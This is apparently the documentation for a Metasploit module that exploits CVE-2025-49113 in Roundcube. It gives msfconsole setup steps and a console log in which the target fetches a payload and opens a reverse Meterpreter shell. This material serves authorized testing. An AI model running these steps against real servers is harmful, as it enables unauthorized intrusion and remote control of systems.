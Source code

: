 ## Vulnerable Application
  This module exploits an authenticated remote code execution vulnerability via a file upload
  endpoint. The vulnerability stems from improper validation of the uploaded filename, which is
  deserialized on the server side without sufficient sanitization. By embedding a PHP serialization
  gadget chain in the filename, an attacker can achieve remote code execution.

  This issue is tracked as CVE-2025-49113. Exploitation results in code execution as the web server
  user.

## Testing
To set up a test environment:
1. Set up an Roundcube.
2. Configure basic networking and confirm that the web service on port 80 is reachable.
3. Follow the verification steps below.

## Options
No custom options exist for this module.

## Verification Steps
1. Start msfconsole
2. `use exploit/multi/http/roundcube_unauth_rce_cve_2025_49113`
3. `set RHOSTS <TARGET_IP_ADDRESS>`
4. `set RPORT <TARGET_PORT>`
5. `set LHOST <LOCAL_IP>`
6. `set LPORT <LOCAL_PORT>`
7. `set USERNAME <USERNAME_TO_LOGIN_WITH>`
8. `set PASSWORD <PASSWORD_TO_LOGIN_WITH>`
9. `run`

## Scenarios
### Roundcube Linux Target
```
msf6 exploit(multi/http/roundcube_unauth_rce_cve_2025_49113) > show options

Module options (exploit/multi/http/roundcube_unauth_rce_cve_2025_49113):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       Password to login with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      9999             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The URI of the Roundcube Application
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME                    yes       Email User to login with
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux

msf6 exploit(multi/http/roundcube_unauth_rce_cve_2025_49113) > exploit

[*] Started reverse TCP handler on 192.168.159.129:8082 
[*] Using URL: http://192.168.159.129:9696/
[*] Fetching CSRF token...
[*] Attempting login...
[+] Login successful.
[*] Uploading malicious payload...
[*] Client 192.168.181.148 (curl/7.74.0) requested /
[*] Sending payload to 192.168.181.148 (curl/7.74.0)
[*] Sending stage (3045380 bytes) to 192.168.181.148
[*] Meterpreter session 1 opened (192.168.159.129:8082 -> 192.168.181.148:56528) at 2025-06-06 21:05:59 -0400
[+] Exploit attempt complete. Check for session.
[*] Server stopped.

meterpreter > getuid
Server username: www-data

meterpreter > sysinfo
Computer     : dante.local
OS           : Debian 11.5 (Linux 6.11.2-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux

```
